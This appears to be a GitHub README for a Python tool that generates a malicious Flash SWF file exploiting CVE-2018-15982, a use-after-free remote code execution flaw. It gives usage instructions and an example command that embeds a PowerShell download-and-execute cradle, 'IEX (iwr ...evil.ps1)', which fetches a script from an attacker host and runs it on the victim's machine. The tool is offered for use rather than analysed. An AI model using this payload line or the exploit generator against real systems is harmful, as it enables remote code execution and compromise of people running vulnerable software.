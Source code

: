 # Adobe Flash CVE-2018-15982

This script dynamically creates a swf payload for CVE-2018-15982, which is based off of the PoC payload from https://github.com/smgorelik/Windows-RCE-exploits.

The vulnerability is a use-after-free flaw enabling arbitrary code-execution in Flash.  More information can be found in the links below.

* https://threatpost.com/adobe-patches-zero-day-vulnerability-in-flash-player/139629/
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-15982


Usage:

```python create_swf.py <command> <output file name>```

Example Usage:

```python create_swf.py "powershell.exe IEX (iwr 'http://192.168.56.101/evil.ps1')" test.swf```
  


## Example


Download a file and confirm execution:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/create-and-confirm.png)


Executing malicious swf:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec.png)


